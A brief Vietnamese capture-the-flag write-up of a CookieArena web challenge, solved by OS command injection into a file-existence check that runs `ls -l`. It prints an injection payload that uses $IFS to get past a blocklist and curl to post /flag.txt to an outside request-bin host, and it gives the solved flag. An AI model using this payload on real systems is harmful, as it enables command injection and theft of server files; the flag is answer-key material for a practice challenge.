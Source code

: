 Link challenge: https://battle.cookiearena.org/challenges/web/the-existed-file.

Flag được đặt trong `/flag.txt` và input được filter blocklist.

![image](https://github.com/toovyz/blog/assets/90684283/a2845ca1-19c2-49b3-a92a-5645288ce549)

Nhập tên path của file và system sẽ kiểm tra xem file đó có tồn tại hay không. 

Mở file download biết được hệ thống sẽ dùng command `ls -l` để check file.

![image](https://github.com/toovyz/blog/assets/90684283/7d2b3e4c-8b6e-43cb-87bb-4ed09123aacb)

Blacklist như sau.

![image](https://github.com/toovyz/blog/assets/90684283/20a9cba5-88cc-42b4-a3cb-940c9fa8a366")

Submit thử flag này --> fake flag.

![image](https://github.com/toovyz/blog/assets/90684283/a5c4c1b2-1714-47bd-a39c-3c878582d724)

Dùng kĩ thuật OAST truyền dữ liệu file `/flag.txt` bằng `curl`.

![image](https://github.com/toovyz/blog/assets/90684283/4cc9c6ab-b3c6-4ce8-a2d5-2fe894e5ec59)

Xử lí khoảng trắng bằng biến `$IFS`.

![image](https://github.com/toovyz/blog/assets/90684283/ee8604fb-b079-4233-8549-880225807ed7)

Dùng https://public.requestbin.com/ tạo request.

![image](https://github.com/toovyz/blog/assets/90684283/28874487-49d0-4cf6-9093-3e4798652fdf)

Chèn payload: `$(curl${IFS}-d${IFS}@/flag.txt${IFS}https://enzf2g6uj1s0n.x.pipedream.net/)`.

![image](https://github.com/toovyz/blog/assets/90684283/78383d87-2f87-4296-bd85-aa7f6cbf832e)

Quay lại requestbin và nhận được flag.

![image](https://github.com/toovyz/blog/assets/90684283/44043c12-d8c7-4e18-8bd7-8466dace0447)

Flag: `CHH{os_c0mManD_INj3cTi0N_bypa5S_FIL7Er_b6d117badd6720ee45ac06825dab15d2}`.



